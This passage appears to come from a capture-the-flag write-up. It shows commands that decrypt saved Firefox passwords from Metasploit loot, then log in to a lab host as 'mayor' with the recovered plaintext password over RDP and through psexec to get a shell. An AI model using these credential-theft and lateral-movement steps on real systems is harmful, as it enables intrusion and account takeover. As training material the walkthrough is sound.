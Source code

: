 
- Now run the decrypter:

```bash
python3 firefox_decrypt.py ~/.msf4/loot

```

![image53](../resources/1ea71a55555d4a0196a802c35d459ed3.png)

- RDP:

```bash
xfreerdp /u:mayor /p:8CL7O1N78MdrCIsV /cert:ignore /v:10.10.198.224

```
Read root.txt

- Or psexec:

```bash
psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.198.224 cmd.exe

```